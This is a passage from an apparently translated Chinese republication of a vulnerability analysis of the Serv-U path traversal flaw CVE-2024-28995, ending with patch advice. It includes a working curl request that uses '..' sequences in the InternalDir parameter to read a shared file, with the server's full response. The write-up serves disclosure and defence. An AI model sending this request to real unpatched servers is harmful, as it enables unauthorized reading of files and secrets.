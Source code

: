 生成的输出将包含一个 HTTP 响应标头，我们必须先将其删除，以便只留下所需文件的内容。然后，使用DB Browser for SQLite之类的工具，我们可以读取数据库并发现目标系统上的每个共享文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafV99pPHLsfwfIoMZicpXgaXM0svyhdH9efq1Cr2edMsZAm9A3nLB5UDSicdHc9PT94E1OjsdqHPStw/640?wx_fmt=png&from=appmsg "")  
  
知道共享文件的位置（如表中  
FullPath的列所示）   
ad_hoc_files，我们现在可以按如下方式读取共享文件：  
  
请注意路径中的随机目录名称（  
PzhW3v7WW在上面的例子中），如果不先读取数据库，我们将无法猜到它  
Serv-U.FileShares。  
```
>curl -i -k --path-as-is https://192.168.86.43/?InternalDir=\..\..\..\..\testdomain\7\PzhW3v7W^&InternalFile=secrets.txt
HTTP/1.0 200 OK
Server: Serv-U/15.4.2.126
Date: Tue, 11 Jun 2024 15:56:44 GMT
Accept-Encoding: deflate
X-Permitted-Cross-Domain-Policies: none
Connection: close
X-Frame-Options: sameorigin
X-Same-Domain: 1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: same-origin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Type: text/plain
Pragma: no-cache
Cache-Control: no-cache,no-store,max-age=0,must-revalidate
Expires: -1
Set-Cookie: CsrfToken=; expires=Thu, 01-Jan-1970 00:00:01 GMT; SameSite=Strict; path=/;  secure; httponly
Content-Length: 18

THIS IS A SECRET!
```  
  
**补救措施**  
  
SolarWinds 已发布修补程序15.4.2 Hotfix 2来修复此问题。建议 Serv-U 客户尽快应用此修补程序。  
  
您可以从此处的供应商处获取有关此修补程序的更多信息。  
```
https://attackerkb.com/topics/2k7UrkHyl3/cve-2024-28995/rapid7-analysis?referrer=notificationEmail
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  